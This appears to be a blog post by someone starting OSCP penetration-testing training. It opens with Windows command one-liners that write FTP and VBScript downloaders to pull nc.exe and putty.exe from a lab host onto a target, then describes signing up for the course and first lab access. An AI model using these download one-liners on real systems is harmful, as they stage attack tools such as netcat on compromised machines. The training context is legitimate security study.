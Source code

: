 Here are some of my Windows one-liners, these two methods can be used for any command that requires multiple lines, for instance when creating an FTP script or creating a visual basic script to download a file:

{% highlight Powershell %}
set r=^&echo:&&(echo open 10.1.1.110 21%r%ftp%r%bin%r%GET nc.exe%r%bye) > ftp.txt&&ftp -s:ftp.txt
{% endhighlight %}

or

{% highlight Powershell %}
(for %t in ("open 10.1.1.110 21" ftp bin "GET nc.exe" bye) do @echo %~t) >ftp.txt&&ftp -s:ftp.txt
{% endhighlight %}

Keep in mind that the Windows nc.exe tool has a limitation on the amount of data you can send per command. For instance, nc.exe will crash with the following one-liner because it is too long (it works in cmd.exe and other cli's, just not via nc.exe):

{% highlight Powershell %}
(for %t in ("strUrl = WScript.Arguments.Item(0)" "StrFile = WScript.Arguments.Item(1)" "Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0" "Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0" "Const HTTPREQUEST_PROXYSETTING_DIRECT = 1" "Const HTTPREQUEST_PROXYSETTING_PROXY = 2" "Dim http,varByteArray,strData,strBuffer,lngCounter,fs, ts" "Err.Clear" "Set http = Nothing" "Set http = CreateObject("WinHttp.WinHttpRequest.5.1")" "If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest")" "If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP")" "If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP")" "http.Open "GET",strURL,False" "http.Send" "varByteArray = http.ResponseBody" "Set http = Nothing" "Set fs = CreateObject("Scripting.FileSystemObject")" "Set ts = fs.CreateTextFile(StrFile,True)" "strData = """ "strBuffer = """ "For lngCounter = 0 to UBound(varByteArray)" "ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1)))" "Next" "ts.Close") do @echo %~t) >wget.vbs && cscript wget.vbs [http://10.1.1.110/putty.exe](http://10.1.1.110/putty.exe) putty.exe
{% endhighlight %}

I signed up today! I enlisted with my work email, got an email on my work email with confirmation code, which I used to sign up. My account is being generated after which I will have to test out lab access. When this is confirmed, I will get the option to pay for the 90 days of labs and the exam. I'm really looking forward to starting the lab and I'm keen to see if my preparations will pay off. My goal is 100% of the lab machines owned.

I have completed my sign up for the Penetration Testing with Kali (the required course to sit the OSCP exam).
The process is as follows:

- Sign up via offensive-security.com website with a non-public email address
- Get an email from them shortly after with a registration link
- Use the link in the email to reserve a starting date for the labs
- Receive an email shortly after (within a day or so) with VPN details to test the VPN connection for up to 48hrs and a payment link
- After verifying the VPN connection works, pay for the course using the payment link (within 72 hours)
- Wait until the starting day

So I received my VPN details to test the connection. I tested the connectivity and decided to run a quick nmap scan and to my surprise I was connected to the real lab... and I had 48 hours of play time! I wasn't going to let that go to waste, although if I had to sign up again I probably would have signed up on a Thursday so I had the whole weekend to play. I have a full time job so I only had about 5 hours total in the labs, minus the time it took to set up the connection . So naturally, I decided to give it a go.
